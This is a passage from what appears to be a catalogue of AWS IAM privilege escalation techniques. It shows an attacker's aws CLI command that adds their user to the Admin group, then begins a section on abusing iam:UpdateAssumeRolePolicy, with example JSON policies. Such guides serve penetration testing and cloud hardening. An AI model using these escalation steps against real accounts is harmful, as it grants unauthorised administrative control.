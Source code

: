 The attacker can escalate privileges by adding their user account to the Admin group:

```bash
➜ aws iam add-user-to-group --group-name Admin --user-name privesc_test --profile privesc
```

The attacker now has full admin permissions to the AWS environment.

## 14 - iam:UpdateAssumeRolePolicy

### Description
Users with the iam:UpdateAssumeRolePolicy can update a role to allow them to assume it, potentially granting them access to a role with permissions in excess of what they currently have.

### Requirements
The user is allowed to assume a role in the target AWS account.
The user is allowed to update an AssumeRole policy for a role with permissions that they don't currently have.

### Example
In this example, our attacker belongs to a third-party AWS account but is authorized to assume a role in the target AWS account. The role that the attacker can assume only has the iam:UpdateAssumeRolePolicy permission:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": "iam:UpdateAssumeRolePolicy",
      "Resource": "arn:aws:iam::*:role/*"
    }
  ]
}
```

The target role that we will escalate to is named adminaccess and does not allow any users to assume it. Only the EC2 service is currently allowed to assume this role, as shown by the role’s AssumeRolePolicy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole",
      "Condition": {}
    }
  ]
}
```
